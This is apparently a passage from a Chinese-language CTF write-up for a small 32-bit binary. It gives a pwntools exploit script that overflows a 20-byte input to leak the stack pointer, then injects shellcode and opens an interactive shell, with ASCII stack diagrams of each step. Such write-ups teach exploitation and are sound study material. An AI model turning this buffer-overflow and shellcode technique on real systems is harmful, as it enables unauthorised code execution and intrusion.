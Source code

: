 ```python

    # 泄漏 esp
    payload = 'a' * NORMAL_INPUT_LEN + p32(0x8048087)
    proc.send(payload)
    proc.recvuntil(':')

    esp_addr = u32(proc.recv(4))
    print('ESP addr is: ', hex(esp_addr))

    # 发送 shellcode，get shell    
    context.arch = 'i386'
    shellcode = asm(SHELLCODE)    

    payload = 'a' * NORMAL_INPUT_LEN # 正常的最大输入 20 个字符
    payload += p32(esp_addr + NORMAL_INPUT_LEN) # 覆盖 _exit
    payload += shellcode
    proc.send(payload)

    proc.interactive()
```

栈变化如下：
开始时：

```
             H +----------------+
               |   Pushed ESP   |
               +----------------+
               |     _exit      |
               +----------------+    <---
               |      CTF:      |      |
               +----------------+      |
               |      the       |      |
               +----------------+      |
               |      art       |    0x14 bytes              
               +----------------+      |  
               |      s st      |      |
               +----------------+      |
               |      Let'      |      |
ESP/ECX ---> L +----------------+    <---
```

泄漏 ESP 时：

```

             H +----------------+
               |   Pushed ESP   |
               +----------------+
               |   0x8048087    |
               +----------------+    <---
               |      aaaa      |      |
               +----------------+      |
               |      aaaa      |      |
               +----------------+      |
               |      aaaa      |    0x14 bytes
               +----------------+      |  
               |      aaaa      |      |
               +----------------+      |
               |      aaaa      |      |
ESP --->     L +----------------+    <---
```
